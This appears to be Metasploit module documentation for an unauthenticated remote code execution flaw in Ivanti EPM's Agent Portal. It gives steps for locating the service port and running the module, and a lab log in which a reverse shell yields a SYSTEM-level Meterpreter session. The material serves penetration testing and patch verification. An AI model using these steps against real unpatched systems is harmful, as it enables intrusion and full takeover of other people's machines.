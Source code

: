## Vulnerable Application
This module leverages an unauthenticated RCE in Ivanti's EPM Agent Portal where a RPC client can invoke a method
which will run an attacker-specified string on the remote target as NT AUTHORITY\SYSTEM.
This vulnerability is present in versions prior to EPM 2021.1 Su4 and EPM 2022 Su2.

## Verification Steps

1. Install the application
1. Determine which port the vulnerable AgentPortal service is listening on. It has a non-static value.
   1. The port used by the AgentPortal service can be found in the registry at `HKLM\SOFTWARE\LANDesk\SharedComponents\LANDeskAgentPortal`
   1. Or you could scan for it and probe the high ports (testing suggests it should be in the 49000 - 50000 range).
1. Start msfconsole
1. Do: `use exploit/windows/misc/ivanti_agent_portal_cmdexec`
1. Set the `RPORT`, `PAYLOAD` and any payload-related options
1. Run the module

## Options

## Scenarios

### Ivanti 2021.1 / 11.0.4.733 on Windows Server 2022 x64

```
metasploit-framework.pr (S:3 J:0) exploit(windows/misc/ivanti_agent_portal_cmdexec) > run

[*] Powershell command length: 4205
[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] 192.168.159.130:49673 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.159.130:49673 - Connected to the remote end point
[+] 192.168.159.130:49673 - The target is vulnerable.
[*] Sending stage (176198 bytes) to 192.168.159.130
[*] Meterpreter session 11 opened (192.168.159.128:4444 -> 192.168.159.130:53627) at 2024-10-28 17:15:09 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-NJ6DUF1OCAM
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > pwd
C:\Windows\system32
meterpreter > 
```
